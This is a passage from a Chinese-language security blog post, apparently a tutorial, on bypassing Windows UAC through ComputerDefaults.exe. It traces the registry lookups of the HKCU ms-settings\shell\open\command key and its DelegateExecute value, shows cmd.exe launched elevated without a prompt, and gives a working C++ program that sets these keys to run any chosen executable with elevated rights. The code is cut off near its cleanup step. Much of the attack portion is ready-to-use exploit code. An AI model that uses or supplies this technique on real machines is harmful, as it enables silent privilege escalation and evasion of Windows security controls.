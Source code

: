 会去查询 HKCU:\Software\Classes\ms-settings\shell\open\command

![](https://mmbiz.qpic.cn/mmbiz_png/m41BLSafyI4R3CRgHID9hVfy4F7mw9Wv8C8HyK3RGtahSPHJ6QMgW26qAlVYAHWS7oNIQL8cNKoXHdUfialgyibw/640?wx_fmt=png)

然后我们再注册表里创建该键值对

![](https://mmbiz.qpic.cn/mmbiz_png/m41BLSafyI4R3CRgHID9hVfy4F7mw9WvO0d0V16zicFKM77E14JiaQeuvn3sCcx4t06yLpehZFOrQBibdwjguP2Rw/640?wx_fmt=png)

继续监听，重新运行 c:\windows\system32\ComputerDefaults.exe，发现还查询了 HKCU\Software\Classes\ms-settings\shell\open\command\DelegateExecute 的键值对

![](https://mmbiz.qpic.cn/mmbiz_png/m41BLSafyI4R3CRgHID9hVfy4F7mw9Wv4Z5RUDqBfFNzicf4hJY2ibvibicq96E2sbwtVmoc3uhagg1vXcZ5XUia19A/640?wx_fmt=png)

在注册表里创建 HKCU\Software\Classes\ms-settings\shell\open\command\DelegateExecute

![](https://mmbiz.qpic.cn/mmbiz_png/m41BLSafyI4R3CRgHID9hVfy4F7mw9Wv7LpzSj8BTMp2OVAwz59Estw4tboREvWQ4IWHjp6tWcssicA0LLwGETw/640?wx_fmt=png)

继续监听，重新运行 c:\windows\system32\ComputerDefaults.exe，这时候采取获取 Software\Classes\ms-settings\shell\open\command 的默认值，然后就会运行该值的程序

![](https://mmbiz.qpic.cn/mmbiz_png/m41BLSafyI4R3CRgHID9hVfy4F7mw9WvfVxI8thiapqwia4YfdWiaC2k3csdibPADEzic8XW2wGHLiadU0pCjDXDckLw/640?wx_fmt=png)

### 0x02-4 总结

如果键值对 HKCU:\Software\Classes\ms-settings\shell\open\command 存在，ComputerDefaults 会接下去查找 HKCU:\Software\Classes\ms-settings\shell\open\command\DelegateExecute 是否也存在, 若也存在到则读取 HKCU:\Software\Classes\ms-settings\shell\open\command 的值然后执行。

测试：将 HKCU:\Software\Classes\ms-settings\shell\open\command(default) 的值设置为 cmd.exe，然后运行 c:\windows\system32\ComputerDefaults.exe

![](https://mmbiz.qpic.cn/mmbiz_png/m41BLSafyI4R3CRgHID9hVfy4F7mw9WvyDFdV8iaHM7h4bPtULBaGQ17OtH0ZibDriagJkmexQgTvR6qlvzl0iblyA/640?wx_fmt=png)

成功弹出 exe，并且是过了 uac 的权限

![](https://mmbiz.qpic.cn/mmbiz_png/m41BLSafyI4R3CRgHID9hVfy4F7mw9WvDtziarMakKBFvXzdSYEw4UTdiazRLngicWo96IjwicK4JNNLnYhaEtI6Cw/640?wx_fmt=png)

0x03 C++ 代码实现运行任意 exe 过 uac
---------------------------

```
#include <stdio.h>
#include <Windows.h>
int wmain(int argc, wchar_t* argv[]) {
if (argc != 2) {
        wprintf(L"Usage: %s <filePath>\n", argv[0]);
        wprintf(L"       %s cmd.exe\n", argv[0]);
exit(1);
    }
    LPWSTR filePath = argv[1];
    PROCESS_INFORMATION pi = { 0 };
    STARTUPINFOA si = { 0 };
    HKEY hKey;
    si.cb = sizeof(STARTUPINFO);
    si.wShowWindow = SW_HIDE;
    RegCreateKeyW(HKEY_CURRENT_USER, L"Software\\Classes\\ms-settings\\Shell\\open\\command", &hKey);       // 创建注册表项
    RegSetValueExW(hKey, L"", 0, REG_SZ, (LPBYTE)filePath, lstrlenW(filePath));                             // 赋值，执行的exe路径
    RegSetValueExW(hKey, L"DelegateExecute", 0, REG_SZ, (LPBYTE)"", sizeof(""));
// 创建进程ComputerDefaults
    CreateProcessA("C:\\Windows\\System32\\cmd.exe", (LPSTR)"/c C:\\Windows\\System32\\ComputerDefaults.exe", NULL, NULL, FALSE, NORMAL_PRIORITY_CLASS, NULL, NULL, &si, &pi);
// 延时十秒，等ComputerDefaults.exe运行
    Sleep(10000);
// 清楚注册表项
```